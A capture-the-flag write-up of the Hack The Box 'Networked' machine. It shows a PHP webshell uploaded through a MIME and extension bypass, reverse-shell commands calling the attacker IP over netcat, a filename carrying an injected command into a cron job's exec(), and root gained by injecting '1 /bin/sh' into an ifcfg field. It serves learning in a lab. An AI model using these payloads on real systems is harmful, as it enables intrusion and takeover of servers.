# Hack The Box - Networked | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Machine (Linux) &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.61.212` &nbsp;•&nbsp; **Time taken:** ~1 day
>
> **Author:** Jithin Jelson

---

## Introduction

Networked is an easy Linux box running on CentOS. Foothold is a file upload with a weak MIME plus extension check, which gets me a webshell as `apache`. From there a cron job running as `guly` executes a PHP script that drops uploaded filenames straight into `exec()`, so I move to `guly` by creating a file whose name is actually a shell payload. For root, `guly` can sudo a script that writes user input into a CentOS `ifcfg-*` network config and then calls `ifup` on it, so I inject a command through the `NAME` field and pop a root shell.

---

## Assessment Overview

```mermaid
flowchart LR
    A["Nmap<br/>SSH + Apache"]:::entry --> B["Gobuster / ffuf"]:::entry
    B --> C["backup.tar<br/>PHP source disclosure"]:::intel
    B --> D["upload.php<br/>photos.php"]:::intel
    C --> E{"MIME + extension<br/>bypass"}:::mitre
    D --> E
    E --> F["PNG magic bytes<br/>+ .php.jpeg ext"]:::payload
    F --> G["Webshell as apache"]:::payload
    G --> H["Reverse shell<br/>+ TTY upgrade"]:::ioc
    H --> I["Enum /home/guly:<br/>check_attack.php<br/>cron every 3 min"]:::intel
    I --> J{"Filename ; injection<br/>into exec()"}:::mitre
    J --> K["Shell as guly"]:::user
    K --> L["user.txt"]:::user
    K --> M["sudo -l:<br/>changename.sh NOPASSWD"]:::intel
    M --> N{"ifcfg NAME=<br/>1 /bin/sh"}:::mitre
    N --> O["Root shell"]:::user
    O --> P["root.txt"]:::user

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef ioc fill:#0f766e,stroke:#134e4a,color:#ffffff;
    classDef intel fill:#7c3aed,stroke:#5b21b6,color:#ffffff;
    classDef mitre fill:#b45309,stroke:#78350f,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    linkStyle default stroke-width:2px
```

---

## What I Learned

- How to abuse a CentOS `ifcfg-*` network config file for local privilege escalation, because the network scripts source those files and anything after a space in a value gets executed as a command.
- Using a filename that starts with `;` to inject commands into an unsanitized `exec()` call in a PHP cron script running as another user.

---

## Enumeration

I kicked things off with a service scan across all ports.

```
nmap -sVC 10.129.61.212
```

Only two ports came back: SSH on 22, and Apache 2.4.6 on 80 running on CentOS with PHP 5.4.16. Browsing to port 80 just shows a "Hello mate, we're building the new FaceMash" message, with nothing else linked from it.



*Figure 1 - Nmap service scan and the plain homepage on port 80.*

Since the homepage had nothing to click, I ran feroxbuster to look for hidden directories and files.



*Figure 2 - Directory brute-force uncovering `/backup/`, `/uploads/`, and a `backup.tar` archive holding the site's PHP source.*

That surfaced `/backup/`, `/uploads/`, and a few PHP files. The `/backup/` directory listing had a `backup.tar` archive in it, which turned out to hold the site's PHP source: `index.php`, `lib.php`, `photos.php`, and `upload.php`.

I also ran ffuf against `FUZZ.php` to pin down which PHP endpoints were live, and confirmed `upload.php` and `photos.php`. `/photos.php` shows a gallery of uploaded images, and `/upload.php` returns "Invalid image file" until you send it something that actually looks like an image.



*Figure 3 - Fuzzing for PHP endpoints, the empty gallery at `/photos.php`, and the "Invalid image file" response from `/upload.php`.*

---

## Source review

`upload.php` from the backup wraps the whole upload in two checks:

```php
if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
    echo '<pre>Invalid image file.</pre>';
    displayform();
}
```

`check_file_type()` lives in `lib.php` and only cares that the MIME type starts with `image/`:

```php
function check_file_type($file) {
    $mime_type = file_mime_type($file);
    if (strpos($mime_type, 'image/') === 0) {
        return true;
    } else {
        return false;
    }
}
```

...and `file_mime_type()` uses `mime_content_type()`, which decides the type from magic bytes:

```php
if (function_exists('mime_content_type')) {
    $file_type = @mime_content_type($file['tmp_name']);
    if (strlen($file_type) > 0) {
        return $file_type;
    }
}
```

So the MIME check falls over the moment I prepend the PNG signature `89 50 4E 47 0D 0A 1A 0A` to any file. The extension check is even softer:

```php
list ($foo,$ext) = getnameUpload($myFile["name"]);
$validext = array('.jpg', '.png', '.gif', '.jpeg');
$valid = false;
foreach ($validext as $vext) {
    if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
    }
}
$name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;
```

The `substr_compare` call only checks that the filename **ends** with one of `.jpg .png .gif .jpeg`. It never rejects extra extensions before that, so `images.php.jpeg` passes. Better still, `$ext` is what `getnameUpload()` returns from splitting on the first `.`, and that's what gets appended to the saved filename. My upload lands at `/uploads/10_10_15_110.php.jpeg`, and Apache happily runs the `.php` part as PHP.



*Figure 4 - The Networked machine card, and the gallery showing my later uploads as broken CentOS logo thumbnails.*

---

## Foothold - webshell as apache

I built the upload in Burp: PNG magic bytes at the top of the body, then a one-liner shell.

```php
<?php system($_GET['cmd']); ?>
```

with `filename="images.php.jpeg"` and `Content-Type: image/jpeg`. The server responded with "file uploaded, refresh gallery", and hitting the resulting file with a command ran it as `apache`.

```
http://10.129.61.212/uploads/10_10_15_110.php.jpeg?cmd=id
```



*Figure 5 - Upload request in Burp with PNG magic bytes and the PHP one-liner, and the browser view showing `uid=48(apache)` from the deployed webshell.*

From there I sent a reverse shell through the same webshell.

```
?cmd=nc -e /bin/sh 10.10.15.110 4444
```

With a netcat listener on 4444, I caught the shell as `apache`.



*Figure 6 - Reverse shell landing on my listener, running as `apache`.*

Then upgraded it to a proper TTY the usual way.

```
python -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export TERM=xterm
```



*Figure 7 - TTY upgrade commands kept in a scratchpad, and the resulting fully interactive bash.*

---

## Lateral movement - shell as guly via cron

Poking around, `/home/guly` had `check_attack.php`, `crontab.guly`, and `user.txt` (unreadable as `apache`).



*Figure 8 - `/home/guly` listing: `check_attack.php`, `crontab.guly`, and the `user.txt` I could not yet read.*

`crontab.guly` fires the PHP script every three minutes as guly:

```
*/3 * * * * php /home/guly/check_attack.php
```

The interesting bit of `check_attack.php`:

```php
$files = preg_grep('/^([^.])/', scandir($path));
foreach ($files as $key => $value) {
    ...
    if (!($check[0])) {
        echo "attack!\n";
        # todo: attach file
        file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);
        exec("rm -f $logpath");
        exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
        echo "rm -f $path$value\n";
        mail($to, $msg, $msg, $headers, "-F$value");
    }
}
```



*Figure 9 - The unsanitized `exec("nohup /bin/rm -f $path$value ...")` call, where `$value` is the raw filename from `scandir()`.*

The script lists files in `/var/www/html/uploads/`, and for anything with an "unexpected" name it calls `exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &")` with `$value` (the raw filename) interpolated straight into the shell command. No escaping, no quoting.

So if I drop a file into `/uploads/` whose name is `;nc -c bash 10.10.15.110 4445;.php`, the shell command becomes:

```
nohup /bin/rm -f /var/www/html/uploads/;nc -c bash 10.10.15.110 4445;.php > /dev/null 2>&1 &
```

which is really three commands, and the middle one runs as guly. From the apache shell:

```
touch -- ';nc -c bash 10.10.15.110 4445;.php'
```

I started a listener on 4445, waited for the cron to fire, and got a shell as guly and read `user.txt`.



*Figure 10 - `touch` creating the filename with the injected command, and the follow-up listener catching a shell as `guly` to read `user.txt`.*

---

## Privilege escalation - ifcfg command injection

`sudo -l` as guly showed one entry:

```
(root) NOPASSWD: /usr/local/sbin/changename.sh
```

The script:

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
    echo "interface $var:"
    read x
    while [[ ! $x =~ $regexp ]]; do
        echo "wrong input, try again"
        echo "interface $var:"
        read x
    done
    echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

It writes a CentOS ifcfg file at `/etc/sysconfig/network-scripts/ifcfg-guly`, prompts for four values (`NAME`, `PROXY_METHOD`, `BROWSER_ONLY`, `BOOTPROTO`), appends each as `VAR=x` to that file, and then runs `ifup guly0` at the end.

The whole exploit lives in the regex:

```
^[a-zA-Z0-9_\ /-]+$
```

That `\ ` is a literal space, so spaces are allowed in the input. When `ifup guly0` runs, it sources `ifcfg-guly` as a shell script. Bash then reads a line like:

```
NAME=1 /bin/sh
```

as "set `NAME=1` in the environment of the next command, then execute `/bin/sh`". Because `changename.sh` was launched with sudo, `ifup` is running as root, so the spawned shell is a root shell.

At the `NAME` prompt I typed:

```
1 /bin/sh
```

and answered the remaining three prompts with any single valid character (`f`, `g`, `d`) just to satisfy the regex and move past them. `ifup` sourced the file, and I dropped into a root shell and read `/root/root.txt`.



*Figure 11 - Running `sudo /usr/local/sbin/changename.sh`, injecting `1 /bin/sh` at the `NAME` prompt, and landing a root shell that reads `root.txt`. HTB "You have solved Networked!" confirmation on the right.*
